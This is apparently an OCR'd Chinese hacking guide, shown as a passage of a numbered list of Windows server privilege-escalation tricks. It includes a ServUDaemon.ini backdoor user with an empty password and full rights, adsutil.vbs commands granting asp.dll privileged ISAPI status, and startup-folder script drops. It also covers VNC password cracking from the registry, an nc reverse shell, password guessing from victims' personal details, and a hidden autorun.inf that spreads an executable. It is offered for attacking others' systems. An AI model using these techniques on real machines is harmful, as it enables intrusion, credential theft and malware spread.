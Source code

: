 4.SU密码夺取
C:Documents and SettingsAll Users「开始」菜单程序
引用：Serv-U，然后本地查看属性，知道路径后，看能否跳转进去后，如果有权限修改ServUDaemon.ini，加个用户上去，密码为空
```
[USER=WekweN|1]
Password=
HomeDir=c:
TimeOut=600
Maintenance=System
Access1=C:|RWAMELCDP
Access1=d:|RWAMELCDP
Access1=f:|RWAMELCDP
SKEYvalues=
```
这个用户具有最高权限，然后我们就可以ftp上去 quote site exec xxx 来提升权限

5.c:winntsystem32inetsrvdata
引用：就是这个目录，同样是erveryone 完全控制，我们所要做的就是把提升权限的工具上传上去，然后执行

6.SU溢出提权
这个网上教程N多 不详细讲解了

7.运行Csript
引用：运行"cscript C:InetpubAdminScriptsadsutil.vbs get w3svc/inprocessisapiapps"来提升权限
用这个cscript C:InetpubAdminScriptsadsutil.vbs get w3svc/inprocessisapiapps
查看有特权的dll文件：idq.dll httpext.dll httpodbc.dll ssinc.dll msw3prt.dll
再将asp.dll加入特权一族
asp.dll是放在c:winntsystem32inetsrvasp.dll (不同的机子放的位置不一定一样)
我们现在加进去cscript adsutil.vbs set /W3SVC/InProcessIsapiApps "C:WINNTsystem32idq.dll"
"C:WINNTsystem32inetsrvhttpext.dll" "C:WINNTsystem32inetsrvhttpodbc.dll"
"C:WINNTsystem32inetsrvssinc.dll" "C:WINNTsystem32msw3prt.dll""c:winntsystem32inetsrvasp.dll"
可以用cscript adsutil.vbs get /W3SVC/InProcessIsapiApps 来查看是不是加进去了

8.脚本提权
c:Documents and SettingsAll Users「开始」菜单程序启动"写入bat，vbs

9.VNC
这个是小花的文章 HOHO
默认情况下VNC密码存放在HKCUSoftwareORLWinVNC3Password
我们可以用vncx4破解它，vncx4使用很简单，只要在命令行下输入c:>vncx4 -W 然后顺序输入上面的每一个十六进制数据，没输完一个回车一次就行了。

10.NC提权
给对方来个NC 但是条件是你要有足够的运行权限 然后把它反弹到自己的电脑上 HOHO OK了

11.社会工程学之GUEST提权
很简单 查看他的拥护 一般来说 看到帐户以后 密码尽量猜 可能用户密码一样 也可能是他QQ号 邮箱号 手机号 尽量看看 HOHO

12.IPC空连接
如果对方真比较白痴的话 扫他的IPC 如果运气好还是弱口令

13.替换服务
这个不用说了吧？个人感觉相当复杂

14.autorun .inf
autorun=xxx.exe 这个=后面自己写 HOHO 加上只读、系统、隐藏属性 传到哪个盘都可以的 不相信他不运行
